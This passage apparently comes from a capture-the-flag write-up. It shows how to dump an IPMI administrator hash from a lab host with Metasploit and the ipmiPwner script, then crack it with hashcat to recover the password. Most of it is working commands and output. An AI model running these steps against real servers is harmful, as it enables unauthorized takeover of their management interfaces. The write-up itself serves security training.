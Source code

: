 I could try asking for other names if I wanted to as well, but I’ll start with the recommended list.

It returns one hash:

```

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:bfa382dc840500003332ec77155a87c439e4e063befc86ee45c6a9549950eceba32da628f637a746a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f4b2dcc03c98373e2ebe667693aa6a88651ffebb
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

#### With ipmiPwner

[ipmiPwner](https://github.com/c0rnf13ld/ipmiPwner) is a Python script that can do similar attacks. I’ll clone the repo, and then run `requirements.sh` to get my system prepped.

By default it will try the same list as MSF:

![image-20220331100028573](https://0xdfimages.gitlab.io/img/image-20220331100028573.png)

Running it with only the `--host [ip]` argument returns the hash for Administrator:

```

oxdf@hacky$ sudo python3 ipmipwner.py --host 10.10.11.124
[*] Checking if port 623 for host 10.10.11.124 is active
[*] Using the list of users that the script has by default
[*] Brute Forcing
[*] Number of retries: 2
[!] Wrong username ADMIN
[!] Wrong username admin
[*] The username: Administrator is valid
[*] The hash for user: Administrator
   \_ $rakp$a4a3a2a0820a0000f793de846396a33033290affdcb188a1b6db9aaa178ce75290b2fd6cfd76bac7a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72$ac4f0b33225a3d1d4c5b7e423c094ef72bc4997d

```

The hash format is a bit different, and doesn’t match anything `hashcat` knows of. Still, but removing the leading `$rakp$` and replacing the other `$` with `:` generates the same format as MSF. Because this isn’t really a hash, but a challenge and response, it makes sense that the hash for the same user can change based on how it’s collected.

### Crack IPMI Hash

The hash above can be taken as that entire line and passed to `hashcat` (using the `--user` flag because the hash starts with the username), which will detect the format as mode 7300 and crack the hash very quickly:

```

$ /opt/hashcat-6.2.5/hashcat.bin ipmi.hash /usr/share/wordlists/rockyou.txt --user
hashcat (v6.2.5) starting in autodetect mode
...[snip]...
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:
                                                    
7300 | IPMI2 RAKP HMAC-SHA1 | Network Protocol
...[snip]...
bfa382dc840500003332ec77155a87c439e4e063befc86ee45c6a9549950eceba32da628f637a746a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:f4b2dcc03c98373e2ebe667693aa6a88651ffebb:ilovepumkinpie1
...[snip]...
```